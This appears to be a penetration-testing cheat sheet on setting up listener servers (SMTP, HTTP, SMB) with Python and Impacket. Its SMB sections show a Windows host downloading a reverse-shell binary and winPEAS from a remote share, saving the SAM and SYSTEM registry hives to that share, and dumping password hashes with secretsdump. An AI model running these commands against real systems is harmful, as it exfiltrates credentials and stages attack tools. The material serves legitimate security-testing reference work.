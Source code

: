 ```yaml
---
title: Server listeners
description: Setup simple servers (HTTP, SMTP, ...)
---
```


# Server listeners

## SMTP Server

Setup a SMTP server with Python.

```bash
$ sudo python3 -m smtpd -n -c DebuggingServer 0.0.0.0:25
---------- MESSAGE FOLLOWS ----------
b'Date: Sun, 26 Sep 2021 18:21:06 +0200'
b'To: user@example.com'
b'From: me@example.com'
b'Subject: test Sun, 26 Sep 2021 18:21:06 +0200'
b'Message-Id: <20210926182106.026180@arch.localdomain>'
b'X-Mailer: swaks vDEVRELEASE jetmore.org/john/code/swaks/'
b'X-Peer: 127.0.0.1'
b''
b'This is a test mailing'
b''
------------ END MESSAGE ------------
```

Command to send the mail :

```bash
$ swaks --to user@example.com --from me@example.com --server localhost
```

## HTTP Server

Setup a HTTP server with Python.

```bash
$ python3 -m http.server --bind 0.0.0.0 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
127.0.0.1 - - [26/Sep/2021 18:24:47] code 404, message File not found
127.0.0.1 - - [26/Sep/2021 18:24:47] "GET /hello HTTP/1.1" 404 -
```

Command to the the HTTP request :

```bash
$ curl localhost:4444/hello
```

## SMB Sever

Server (on 10.9.52.138) :

```bash
$ sudo smbserver.py tmpshare .
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation
[...]
$ sudo smbserver.py -smb2support tmpshare .
[...]
```

Client :

```bash
# Download from SMB server.
C:\ > copy \\10.9.52.138\tmpshare\reverse.exe .

# Send to SMB server.
C:\ > reg.exe save HKLM\SAM sam.bak
C:\ > copy sam.bak \\10.9.52.138\tmpshare\sam
# or
C:\ > reg.exe save HKLM\SYSTEM \\10.9.52.138\tmpshare\system
$ secretsdump.py -sam sam -system system LOCAL
[...]
```

## SMB Server (password protected)

Run the server :

```
sudo smbserver.py tmpshare . -smb2support -username toto -password toto
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[...]
```

Use the server :

```
PS C:\users\public> net use '\\10.10.15.176\tmpshare' /user:toto toto
The command completed successfully.

PS C:\users\public> copy '\\10.10.15.176\tmpshare\winpeas.exe' .
```